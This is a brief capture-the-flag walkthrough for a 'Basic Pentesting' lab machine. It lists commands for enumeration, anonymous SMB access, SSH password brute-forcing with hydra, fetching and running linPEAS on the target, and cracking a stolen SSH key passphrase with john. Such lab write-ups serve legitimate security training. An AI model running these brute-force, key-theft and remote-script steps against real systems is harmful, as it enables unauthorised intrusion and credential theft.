 # Basic Pentesting

> thegurpreet | Mar 2021

## Service Enumeration

Scanning ports using nmap
```
sudo nmap -sV -sC $ip
```

## Web directory Enumeration

```
sudo gobuster dir -u http://$ip -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -t 500
```

## Samba Enumeration

Use enum4linux to enumerate
```
enum4linux -a $ip | tee enum4linux.log
```

Mound and access anon SMB share
```
sudo mount //$ip/Anonymous /media/test/
cat /media/test/staff.txt
```

### SSH brute forcing

```
hydra -l jan -P /usr/share/wordlists/rockyou.txt ssh://$ip
```

### Privilege Escalation

Download linpeas script to source machine first and then transfer using SCP
```
curl https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh > linpeas.sh
scp linpeas.sh jan@10.10.89.2:/dev/shm
```

Execute linpeas on target machine
```
chmod +x /dev/shm/linpeas.sh
sh linpeas.sh
```

Look for SSH keys section
```
[+] Looking for ssl/ssh files
Possible private SSH keys were found!
```

Use john the ripper for brute forcing pass-phrase
```
/usr/share/john/ssh2john.py kay_id_rsa > kay_id_rsa_forjohn.txt
sudo john kay_id_rsa_forjohn.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

Login with captured information and read the final file
```
chmod 600 kay_id_rsa
ssh -i kay_id_rsa kay@$ip
cat pass.bak
```
